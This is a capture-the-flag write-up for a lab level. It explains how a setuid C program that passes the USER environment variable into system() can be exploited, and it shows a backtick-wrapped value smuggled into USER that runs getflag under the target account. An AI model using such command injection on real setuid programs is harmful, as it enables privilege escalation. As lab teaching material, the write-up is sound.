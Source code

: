 This level provides source code of file `level2.c`, listed below

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endhighlight %}

This code is vulnerable to a similar exploit, since it's basically
reading from `USER` environment variable & passing it to the `system`
function call. This time though, `/bin/echo` is being referenced
by it's absolute path rather than from some environment variable. 

It's a nice thing that the call to printf is there, it makes it easier
for us to see what's being called when we are trying to exploit the
executable.

~~~
$ USER=hello /home/flag02/flag02
about to call system("/bin/echo hello is cool")
hello is cool
~~~

Sometimes when writing a shell-script, special characters are used
whenever you want to separate command without breaking the line, or,
depending if one execution was successful; execute another program.
lot more other special characters used in shell programming; Like
backticks!

Backticks are awesome, in shell programming they are used as a way to
let the output of a executed program "fill" into your own command.

~~~
$ USER="\`/bin/getflag\`" /home/flag02/flag02
about to call system("/bin/echo `getflag` is cool")
You have successfully executed getflag on a target account is cool
~~~
